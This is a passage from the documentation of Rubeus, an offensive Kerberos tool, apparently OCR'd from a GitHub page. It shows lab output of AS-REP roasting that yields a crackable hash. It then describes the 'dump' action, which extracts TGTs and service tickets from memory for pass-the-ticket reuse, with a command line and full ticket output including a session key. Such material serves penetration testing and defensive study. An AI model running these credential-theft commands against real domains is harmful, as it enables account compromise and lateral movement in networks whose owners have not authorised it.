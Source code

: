       v1.0.0

    [*] Action: AS-REP Roasting

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/o preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 163 bytes
    [*] Received 1537 bytes
    [+] AS-REQ w/o preauth successful!
    [*] AS-REP hash:

          $krb5asrep$dfm.a@testlab.local:F7310EA341128...(snip)...


## dump

The **dump** action will extract current TGTs and service tickets from memory, if in an elevated context. The resulting extracted tickets can be filtered by /service (use /service:krbtgt for TGTs) and/or logon ID (the /luid:X parameter). The KRB-CRED files (.kirbis) are output as base64 blobs and can be reused with the ptt function, or Mimikatz's **kerberos::ptt** functionality.

    c:\Temp\tickets>Rubeus.exe dump /service:krbtgt /luid:366300

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0


    [*] Action: Dump Kerberos Ticket Data (All Users)

    [*] Target LUID     : 0x596f6
    [*] Target service  : krbtgt


      UserName                 : harmj0y
      Domain                   : TESTLAB
      LogonId                  : 366326
      UserSID                  : S-1-5-21-883232822-274137685-4173207997-1111
      AuthenticationPackage    : Kerberos
      LogonType                : Interactive
      LogonTime                : 9/17/2018 9:05:26 AM
      LogonServer              : PRIMARY
      LogonServerDNSDomain     : TESTLAB.LOCAL
      UserPrincipalName        : harmj0y@testlab.local

        [*] Enumerated 1 ticket(s):

        ServiceName              : krbtgt
        TargetName               : krbtgt
        ClientName               : harmj0y
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : aes256_cts_hmac_sha1
        Base64SessionKey         : AdI7UObh5qHL0Ey+n28oQpLUhfmgbAkpvcWJXPC2qKY=
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, pre_authent, initial, renewable, forwardable
        StartTime                : 9/17/2018 4:20:25 PM
        EndTime                  : 9/17/2018 9:20:25 PM
        RenewUntil               : 9/24/2018 2:05:26 AM
        TimeSkew                 : 0
        EncodedTicketSize        : 1338